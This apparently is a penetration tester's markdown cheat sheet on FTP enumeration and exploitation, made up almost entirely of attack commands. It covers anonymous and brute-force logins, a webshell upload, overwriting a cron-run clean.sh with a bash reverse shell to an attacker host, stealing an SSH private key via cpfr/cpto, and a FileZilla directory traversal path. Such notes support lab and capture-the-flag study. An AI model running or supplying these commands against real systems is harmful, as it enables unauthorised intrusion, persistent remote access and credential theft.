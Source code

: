 ```yaml
---
category: Uncategorized
tags:
  - pentest
  - enumeration
  - ftp
---
```

#### FTP Enumeration
==CHECK TO SEE IF YOU CAN UPLOAD FILES!==

```bash - kali
ftp $TARGET 21
```

Admin login
```bash - kali
admin
```

Anonymous login
```bash - kali
anonymous
```

```bash - kali
nmap --script ftp-brute -p 21 $TARGET
```

Check for directory traversal:
```bash - kali
ls ../
```

#### Exit Extended Passive Mode
![[Pasted image 20220401094126.png]]

```bash - kali
pass
```

```bash - kali
ls
```

Then switch to binary mode to upload files:
```bash - kali
bin
```

#### Downloading recursively 
```bash - kali
wget --mirror 'ftp://anonymous:anonymous@$TARGET'
```

```bash - kali
wget -r ftp://anonymous@$TARGET:21
```

```bash - kali
wget -m ftp://anonymous:anonymous@$TARGET
```

```bash - kali
wget -m --no-passive ftp://anonymous:anonymous@$TARGET
```

#### Upload reverse shell
```bash - kali
binary
```

```bash - kali
put cmdasp.aspx
```

Then visit webshell in web browser:
```bash - kali
firefox http://$TARGET/cmdasp.aspx
```

#### Display file without downloading
```bash - kali
get <FILENAME> -
```

#### Existing scripts
`scripts` folder found on FTP, file called `clean.sh` that is part of cron job.  Made a reverse shell with same name, uploaded and overwrote.

clean.sh
```bash - kali
echo '#!/bin/bash \nbash -i >& /dev/tcp/$KALI/443 0>&1' > clean.sh
```

```bash - kali
ftp $TARGET
```

```bash - kali
cd scripts
```

```bash - kali
put clean.sh
```

Set up listener and wait.

[[rlwrap]]

#### Nmap vsftpd script

```bash - kali
nmap --script ftp-vsftpd-backdoor -p 21 $TARGET
```

#### copy id_rsa

```bash - kali
nc $TARGET 21
```

```bash - kali
cpfr /home/user/.ssh/id_rsa
```

```bash - kali
cpto /home/kali/id_rsa
```

[[Port 22 - SSH  ~#id_rsa]]

#### Home FTP Server
https://www.exploit-db.com/exploits/34050

#### FileZilla Directory Transversal
```
.....=C:/Program+Files/FileZilla+Server/FileZilla+Server.xml
```

To crack passwords, try:
[[TechLexicon/Penetration Testing/Reference/7._Tools/Hashcat#FileZilla 0 9 55]]

#### vsftpd
Config file is most likely located at `/etc/vsftpd.conf`. If you can read this file, look for `anon_root=/srv` entry to find root directory of FTP.  `/srv` in this example.
